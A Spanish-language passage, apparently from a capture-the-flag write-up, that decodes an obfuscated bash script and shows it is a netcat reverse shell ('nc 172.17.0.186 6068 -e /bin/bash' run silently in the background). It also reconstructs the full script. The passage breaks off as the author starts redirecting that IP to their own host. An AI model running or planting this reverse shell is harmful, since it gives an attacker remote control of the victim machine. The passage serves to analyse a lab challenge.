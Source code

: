 #### **Paso 4: Usar `b` como puerto**

`d=$((b))`

* El valor de `b` ya está calculado: `6068`. Este será el puerto para la conexión.

***

#### **Paso 5: Configuración del comando final**

`e="nc" f="-e" g=$c h=$d $e $g $h $f /bin/bash &>/dev/null &`

* `e="nc"`: Es el comando `netcat`, usado para establecer conexiones de red.
* `f="-e"`: La opción `-e` de `netcat` ejecuta un programa al recibir una conexión (en este caso, `/bin/bash`).
* `g=$c`: Dirección IP objetivo (descompuesta previamente como `172.17.0.186`).
* `h=$d`: Puerto objetivo (descompuesto previamente como `6068`).

**Comando completo**:

`nc 172.17.0.186 6068 -e /bin/bash &>/dev/null &`

***

#### **Decodificación Completa**

El script:

1. Calcula la dirección IP y el puerto a partir de operaciones XOR.
2. Usa `netcat` para conectarse a la IP `172.17.0.186` en el puerto `6068`.
3. Ejecuta `/bin/bash` para ofrecer una shell remota al atacante.

El codigo se veria algo parecido a esto:

```bash
#!/bin/bash

set +m

# Dirección IP y puerto calculados explícitamente
c="172.17.0.186"  # Dirección IP
d=6068            # Puerto

# Comando para iniciar una conexión usando netcat
e="nc"
f="-e"
g=$c
h=$d

# Establecer conexión con una shell inversa
$e $g $h $f /bin/bash &>/dev/null &
```

Por lo que vemos esta ejecutando un `nc` para crear una `shell` a una `IP` y puerto en concreto, por lo que haremos lo siguiente:

En nuestro `host` añadiremos la `IP` que esta en el script de la siguiente forma:
